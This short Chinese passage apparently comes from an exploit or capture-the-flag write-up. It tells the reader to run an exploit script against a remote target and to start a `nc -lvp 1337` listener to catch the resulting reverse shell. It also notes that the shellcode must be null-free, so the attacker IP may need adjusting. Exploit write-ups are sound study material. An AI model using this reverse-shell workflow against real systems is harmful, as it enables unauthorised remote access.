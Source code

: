‍

把上面的注释去掉，下面注释上，运行 `python ./Exp.py REMOTE`​

记得在接收shell的机器上运行`nc -lvp 1337`​

![image](assets/image-20250406195904-0lmz0d3.png)

线上也打通 (记得这里需要满足一个条件： ShellCode需要是Null-Free的，因而我们的IP地址如果带0，则需要进行IP地址的修改)

‍

